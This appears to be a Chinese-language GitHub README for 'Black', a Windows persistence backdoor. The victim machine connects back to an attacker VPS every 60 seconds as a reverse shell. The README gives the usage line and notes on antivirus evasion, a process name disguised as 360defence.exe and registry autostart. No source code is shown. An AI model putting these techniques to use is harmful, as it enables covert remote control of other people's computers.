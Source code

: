 ## Windows权限维持工具<1.4>

### version 1.0

##### **~开发思路：**

- S端通过socket管道来传输command给C端，C端执行，实现简易的后门控制
- 采用TCP socket、传输稳定，不掉包（可能会出现粘包，未做边界分离）
- 靶机为C端，公网VPS为S端，C端不断发起连接，以防掉线
- ~~混淆代码，初步免杀~~

##### ~使用方法：

> ```
> # Windows权限维持后门、持续反弹shell，60s/1次
> Black v1.0
> Usage: black.exe r_ip r_port
> author: NOVASEC_黑仔
> if cmd == quit:
>  关闭管道，临时退出
> elif cmd == exit:
>  程序结束，永久退出
> else:
> 执行命令，回显结果
> ```

##### **~使用效果：**

正常回显

![image-20210330174558324](https://user-images.githubusercontent.com/33219753/121507501-483dcb80-ca17-11eb-9132-18e9b45a831e.png)



暂时退出、断开后，60s再次连接，继续执行命令

![image-20210330174838523](https://user-images.githubusercontent.com/33219753/121507542-512e9d00-ca17-11eb-8bfe-6f41f46eccba.png)


永久退出、断开连接

![image-20210330175403279](https://user-images.githubusercontent.com/33219753/121507593-5ab80500-ca17-11eb-902c-1a746d6dd4fa.png)

靶机端口及进程情况：

![image-20210330175221694](https://user-images.githubusercontent.com/33219753/121507627-63104000-ca17-11eb-99b6-8d2dbca9e422.png)


![image-20210330175046964](https://user-images.githubusercontent.com/33219753/121507648-69062100-ca17-11eb-823a-10070b7ed93d.png)


##### ~免杀情况：

![image-20210330173705993](https://user-images.githubusercontent.com/33219753/121507680-71f6f280-ca17-11eb-8a8a-0f1e5d0e1e6d.png)


![image-20210330170259060](https://user-images.githubusercontent.com/33219753/121507747-80dda500-ca17-11eb-83e2-5bda8f65c4e9.png)


被检测出了，建议隔离

![image-20210330170745685](https://user-images.githubusercontent.com/33219753/121507784-8a670d00-ca17-11eb-94d3-c16b6cb4875a.png)

> 在之前的基础上
>
> 增加花指令
>
> 增加程序图标
>
> 其他不变（进程名360defence.exe，双进程）

![image-20210331232840781](https://user-images.githubusercontent.com/33219753/121507823-93f07500-ca17-11eb-986e-50039afdd964.png)


![image-20210331232844697](https://user-images.githubusercontent.com/33219753/121507856-9a7eec80-ca17-11eb-8d0e-a5c1c1b5f93f.png)


##### **~后期规划**：

- 进行出网判断
- 流量加密
- 进阶免杀
- 等等...

### version 1.1

- 不再提供免杀
- 修复bug，更稳定

### version 1.2

- 增加注册自启动功能

运行前：

![image-20210610164417507](https://user-images.githubusercontent.com/33219753/121507914-a79bdb80-ca17-11eb-890a-222a5bc39dc1.png)


运行后：

![image-20210610153915575](https://user-images.githubusercontent.com/33219753/121507939-af5b8000-ca17-11eb-9cd7-c98cf646553e.png)


![image-20210610165050508](https://user-images.githubusercontent.com/33219753/121507976-b84c5180-ca17-11eb-976b-d95a93d6258e.png)


重启验证：

![image-20210610175439655](https://user-images.githubusercontent.com/33219753/121507997-bc786f00-ca17-11eb-864c-d2f156f522c9.png)

![image-20210610181110442](https://user-images.githubusercontent.com/33219753/121508017-c00bf600-ca17-11eb-9061-7c550e2f368f.png)

### version 1.4

- 新增Server端，取代NC，一对一控制（待优化）
- 增加Logo输出
- 简单的传输加密（待优化）
- 缺陷：线程回收问题

S启动：

![image-20210620145256132](https://user-images.githubusercontent.com/33219753/122665255-c436d100-d1d8-11eb-9640-728cd47c740c.png)
S命令执行

![image-20210620145714398](https://user-images.githubusercontent.com/33219753/122665264-cd27a280-d1d8-11eb-9c9a-14842dfcf752.png)
C端：

![image-20210620145923994](https://user-images.githubusercontent.com/33219753/122665268-d31d8380-d1d8-11eb-9695-6c4c7eaab1ba.png)
测试服务中断：

![image-20210620150124277](https://user-images.githubusercontent.com/33219753/122665274-dca6eb80-d1d8-11eb-8403-425d8b490b09.png)
等待60s，又回来了

![image-20210620150152616](https://user-images.githubusercontent.com/33219753/122665279-e6c8ea00-d1d8-11eb-8d82-ab16e128f6d0.png)








